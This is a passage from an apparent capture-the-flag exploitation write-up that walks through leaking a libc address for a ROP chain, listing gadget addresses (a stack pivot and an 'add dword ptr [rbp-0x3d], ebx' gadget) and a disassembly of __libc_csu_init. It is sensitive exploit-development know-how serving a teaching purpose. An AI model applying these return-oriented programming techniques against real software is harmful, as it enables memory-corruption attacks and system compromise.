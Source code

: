 Nope. That means we need to get it from libc too.

I dont know any other way to call mprotect. If you do know any, please feel free to comment it, I would love to know.

### Getting a libc value
I will be using the second method, as it's probably easier to do, since we dont need to setup the rax register. I will be skipping the exploration phase of solving this, as it took awhile to find the right way to do it. In order to get a libc value, I used the following three magic gadgets.

```
0x00000000004005dd : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
```

\*Note: this next one isn't found by ropper, use ROPgadget!
```
0x0000000000400518 : add dword ptr [rbp - 0x3d], ebx ; nop dword ptr [rax + rax] ; ret
```

```
   0x400587:    push   r13
   0x400589:    push   r12
   0x40058b:    lea    r12,[rip+0x200836]        # 0x600dc8
   0x400592:    push   rbp
   0x400593:    lea    rbp,[rip+0x200836]        # 0x600dd0
   0x40059a:    push   rbx
   0x40059b:    mov    r13d,edi
   0x40059e:    mov    r14,rsi
   0x4005a1:    sub    rbp,r12
   0x4005a4:    sub    rsp,0x8
   0x4005a8:    sar    rbp,0x3
   0x4005ac:    call   0x400400
   0x4005b1:    test   rbp,rbp
   0x4005b4:    je     0x4005d6
   0x4005b6:    xor    ebx,ebx
   0x4005b8:    nop    DWORD PTR [rax+rax*1+0x0]
   0x4005c0:    mov    rdx,r15
   0x4005c3:    mov    rsi,r14
   0x4005c6:    mov    edi,r13d
   0x4005c9:    call   QWORD PTR [r12+rbx*8]
   0x4005cd:    add    rbx,0x1
   0x4005d1:    cmp    rbp,rbx
   0x4005d4:    jne    0x4005c0
   0x4005d6:    add    rsp,0x8
   0x4005da:    pop    rbx
   0x4005db:    pop    rbp
   0x4005dc:    pop    r12
   0x4005de:    pop    r13
   0x4005e0:    pop    r14
   0x4005e2:    pop    r15
   0x4005e4:    ret
```
\*Note: This is just __libc_csu_init!
